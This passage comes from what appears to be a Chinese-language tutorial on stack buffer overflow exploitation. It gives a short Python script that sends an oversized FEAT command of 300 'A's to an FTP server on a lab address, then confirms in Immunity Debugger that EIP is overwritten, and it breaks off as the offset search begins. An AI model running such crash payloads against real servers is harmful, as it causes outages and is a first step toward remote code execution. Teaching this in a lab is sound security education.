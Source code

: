 看到2次异常后程序崩溃，应该是可以溢出。

##### 3.4.1.2 python

写脚本，发包测试

```python
import socket
 
s = socket.socket(socket.AF_INET, socket.SOCK_STREAM)
s.connect(('192.168.80.128', 21))
evil = 'A' * 300
payload = 'FEAT ' + evil + '\r\n'
s.send(payload)
s.close()
```

运行后，程序出现崩溃。将程序使用Immunity加载运行，再次运行脚本，A的ASCII码为0x41

![from_shellcode_to_buffer_overflow_practical_experience_8](from_shellcode_to_buffer_overflow_practical_experience_8.jpg)

可见，程序的EIP已经被0x41414141填充，证明可溢出。（如果反汇编窗口空了，再点一下三角运行程序，就会发生图中报错，或者直接看左下角信息）

#### 3.4.2 找到覆盖返回地址的偏移

首先，使用Immunity载入ftp程序，让程序运行起来，搜索字符串，找到下面这项

